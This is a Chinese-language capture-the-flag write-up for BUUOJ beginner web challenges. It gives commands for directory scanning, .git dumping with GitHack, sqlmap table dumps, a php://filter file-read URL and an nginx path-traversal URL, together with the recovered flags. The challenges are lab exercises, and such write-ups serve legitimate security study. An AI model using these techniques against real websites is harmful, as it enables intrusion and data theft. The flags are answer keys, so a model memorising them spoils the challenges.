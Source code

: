 # [第一章 web入门]常见的搜集
试了好些类似 dirsearch 的工具，都不好用，最后还是看的答案
- [dirsearch](https://github.com/maurosoria/dirsearch)：扫描网站目录
- [feroxbuster](https://github.com/epi052/feroxbuster)：扫描网站目录
- [ffuf](https://github.com/ffuf/ffuf)：扫描网站目录
- [gobuster](https://github.com/OJ/gobuster/releases/tag/v3.6.0)：扫描网站目录
- [common.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt): 常见目录文件名
反正最后就是要查出来几个文件
```
robots.txt -> flag1:n1book{info_1
index.php~ -> flag2:s_v3ry_im
.index.php.swp -> flag3:p0rtant_hack}

n1book{info_1s_v3ry_imp0rtant_hack}
```

# [第一章 web入门]粗心的小李
使用 GitHack 下载 .git 文件夹
```sh
'C:\Python27\python.exe' .\GitHack.py -u http://bd8453b7-fcb1-4725-8962-3bb1cb3dcef9.node5.buuoj.cn:81/.git
cd .\dist\bd8453b7-fcb1-4725-8962-3bb1cb3dcef9.node5.buuoj.cn_81\
git log
git show 213b7e386e9b0b406d91fae58bf8be11a58c3f88
```

# [第一章 web入门]SQL注入-1
使用 sqlmap
```sh
python .\sqlmap.py -u http://54313594-3a8c-4a9f-afdf-1c4c3a6d32a9.node5.buuoj.cn:81/index.php?id=1 --threads 10 -D note -T fl4g -C fllllag --dump
```

# [第一章 web入门]SQL注入-2
看提示抓包得到 payload: `sqlmap.txt`
```
POST /login.php HTTP/1.1
Host: 5bbca68c-c344-483c-b720-72fc1e93e32a.node5.buuoj.cn:81
Content-Length: 28
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://5bbca68c-c344-483c-b720-72fc1e93e32a.node5.buuoj.cn:81
Referer: http://5bbca68c-c344-483c-b720-72fc1e93e32a.node5.buuoj.cn:81/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

name=admin&pass=aaaaaaaaaaaa
```
使用 sqlmap 得到结果。
```sh
python .\sqlmap.py -r ..\..\assets\sqlmap.txt -D note -T fl4g -C flag --dump
```

# [第一章 web入门]afr_1
看答案说要用以下方法构造 url，不知道为啥：
```
http://c127db16-ec54-4b5a-a090-07204c94bcea.node5.buuoj.cn:81/?p=php://filter/read=convert.base64-encode/resource=flag
```
将返回的结果用 base64 解码：
```
PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9
```

# [第一章 web入门]afr_2
查看图片地址为
`http://1fcf9b71-f01a-43c6-9360-f067b8b26674.node5.buuoj.cn/img/img.gif`
然后答案说 nginx 没有在配置 static 文件夹的时候，忘记在最后面加上/，导致访问/static../的时候，会被替换为path/to/static/../，从而导致目录穿越漏洞。
所以这里可以尝试 `http://1fcf9b71-f01a-43c6-9360-f067b8b26674.node5.buuoj.cn/img../`
然后就能得到 flag 文件
